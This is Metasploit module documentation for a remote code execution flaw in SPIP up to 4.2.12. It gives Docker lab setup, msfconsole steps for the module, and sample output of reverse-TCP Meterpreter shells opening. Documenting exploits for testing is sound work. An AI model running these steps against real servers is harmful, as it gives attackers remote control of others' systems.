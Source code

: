 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP versions up to and including 4.2.12.
The vulnerability occurs in SPIP’s templating system where it incorrectly handles user-supplied input, allowing an attacker
to inject and execute arbitrary PHP code.
This can be achieved by crafting a payload that manipulates the templating data processed by the `echappe_retour()` function,
which invokes `traitements_previsu_php_modeles_eval()`, containing an `eval()` call.

To replicate a vulnerable environment for testing:

1. Install SPIP using the provided Docker Compose configuration.
2. Use the image `ipeos/spip:4.2.12` to ensure the environment is vulnerable.
3. Verify that the SPIP instance is accessible on the local network.

### Docker Setup

Use the following Docker Compose file to set up the environment:

```yaml
version: '3.8'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=MysqlRootPassword
      - MYSQL_DATABASE=spip
      - MYSQL_USER=spip
      - MYSQL_PASSWORD=spip
    volumes:
      - mysql-data:/var/lib/mysql

  app:
    image: ipeos/spip:4.2.12
    restart: always
    depends_on:
      - db
    environment:
      - SPIP_SITE_ADDRESS=http://localhost:8880
      - SPIP_DB_SERVER=db
      - SPIP_DB_LOGIN=spip
      - SPIP_DB_PASS=spip
      - SPIP_DB_NAME=spip
      - SPIP_AUTO_INSTALL=1
    ports:
      - 8880:80
    volumes:
      - spip-data:/var/www/html

volumes:
  spip-data:
  mysql-data:
```

This Docker Compose file configures a SPIP environment with a MariaDB backend, enabling automatic installation.
Here are the correct setup details:

- **SPIP Access URL:** `http://localhost:8880`
- **Database Configuration:** Utilizes MariaDB, as specified by the database service setup.
- **Automatic Installation:** Enabled via `SPIP_AUTO_INSTALL=1`.

After launching the Docker container, SPIP will be accessible at `http://localhost:8880`.
The automatic installation will simplify the initial setup, allowing you to start using SPIP without manual configuration.

If you decide to disable automatic installation by setting `SPIP_AUTO_INSTALL` to `0`, you will need to manually configure SPIP.
To do this, after starting the container, navigate to `http://localhost:8880/ecrire` to access the SPIP web installation panel.

### Non-Docker Setup

If you prefer not to use Docker, you can manually set up SPIP with the following commands:

```bash
wget https://files.spip.net/spip/archives/spip-v4.2.12.zip
unzip spip-v4.2.12.zip
cd spip-v4.2.12
php -S 0.0.0.0:8000
```

Accessible at `http://localhost:8000`.

## Verification Steps

1. Set up a SPIP instance with the specified Docker environment.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_porte_plume_previsu_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No additional options are required for basic exploitation.

## Scenarios

### Successful Exploitation Against Local SPIP 4.2.12

**Setup**:

- Local SPIP instance with version 4.2.12.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/spip_porte_plume_previsu_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] The target appears to be vulnerable. The detected SPIP version (4.2.12) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:56534) at 2024-08-19 19:43:18 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] The target appears to be vulnerable. The detected SPIP version (4.2.12) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.1.36:59106) at 2024-08-19 19:44:40 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running in the Docker environment for the exploit to work as expected.
